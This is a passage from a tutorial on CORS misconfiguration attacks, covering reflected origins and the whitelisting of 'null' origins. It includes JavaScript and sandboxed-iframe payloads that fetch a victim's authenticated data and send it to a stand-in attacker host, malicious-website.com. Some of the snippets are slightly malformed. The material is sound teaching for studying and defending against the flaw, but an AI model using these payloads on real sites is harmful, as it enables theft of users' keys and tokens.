 ```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```js
fetch("https://vulnerable-website.com/sensitive-victim-data", {
    credentials: "include"
})
    .then((response) => {
        document.location = "//malicious-website.com/log?key={0}".format(response.text());
    });
```
## The null Origin

The specification for the `Origin` header supports the value `null`. Browsers might send the value `null` in the `Origin` header in various unusual situations:

- Cross-site redirects,
- Requests from serialized data,
- Request using the `file:` protocol,
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application.

For example, application receives the following request:

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

and responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
...
```

In this situation, an attacker can use various tricks to generate a cross-domain request containing the value `null` in the `Origin` header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
fetch('https://vulnerable-website.com/sensitive-victim-data', {
    credentials: 'include'
})
    .then((response) => {
        document.location = '//malicious-website.com/log?key={0}'.format(response.text());
    });
</script>"></iframe>
```
